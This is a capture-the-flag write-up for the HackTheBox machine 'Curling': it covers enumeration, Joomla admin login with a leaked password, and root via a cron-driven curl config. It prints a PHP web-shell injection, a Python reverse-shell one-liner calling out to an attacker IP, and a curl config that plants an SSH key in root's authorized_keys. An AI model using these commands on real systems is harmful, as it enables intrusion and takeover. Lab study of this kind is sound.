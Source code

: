 ```yaml
---
title: "HackTheBox - Curling"
author: Nasrallah
description: ""
date: 2023-02-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cronjob, curl]
img_path: /assets/img/hackthebox/machines/curling
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Curling](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.150
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8ad169b490203ea7b65401eb68303aca (RSA)
|   256 9f0bc2b20bad8fa14e0bf63379effb43 (ECDSA)
|_  256 c12a3544300c5b566a3fa5cc6466d9a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two open ports, 22 running OpenSSH and 80 is Apache web server with Joomla CMS.

## Web

Let's navigate to the web page.

![](1.png)

We find a website about curling.

Going the first post, we see it's written by `Floris`, an checking the source code of the page we find something interesting.

![](2.png)

The secret file has a base64 encoded password.

# **Foothold**

Using the username Floris and the password we found, we can login to the administrator page of Joomla.

According to [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#RCE), we can get an rce by injecting `system ($_GET['cmd']);` to a file of one of the templates.

![](3.png)

Let's do just that.

![](4.png)

Now to run `id` for example, we got to `http://10.10.10.150/templates/protostar/error.php/error.php?cmd=id`

![](5.png)

Great! We got command execution, now let's get a reverse shell by running the following one liner.

```bash
export RHOST="10.10.10.10";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")''
```

![](6.png)

# **Privilege Escalation**

## floris

Checking file inside floris's home directory, we find a file called password_backup with hexdump data.

![](7.png)

Using [CyberChef](https://gchq.github.io/CyberChef/), we find that file file is compressed multiple times using `gz, bz2 ,tar`, but we manage to get the password file.

![](8.png)

Let's ssh to floris.

![](9.png)

## root

Checking the admin-area directory, we see two files that are being updated every minute.

![](10.png)

I checked if there is any cronjobs but didn't find anything, so i uploaded `pspy64` and managed to find the following.

![](11.png)

There is a cronjob running two commands, the first command is `curl` with `-K` option using `input` file and saving the output to `ouput`.

According to curl's man page, -K specifies a config file where the file has command line arguments.

![](12.png)

Checking the input file, we see it has the url setup to `127.0.0.1`.

Here comes the second cron job where it reset the content of input after the first cronjob is executed.

We can modify the input file to request our own web server where we'll be hosting an id_rsa.pub file and then save it the /root/.ssh/authorized_keys.

```bash
url = http://10.10.17.90/id_rsa.pub
output = /root/.ssh/authorized_keys
```

![](14.png)

We wait a little bit for the cronjob to run and we can ssh to root without a password.

![](13.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).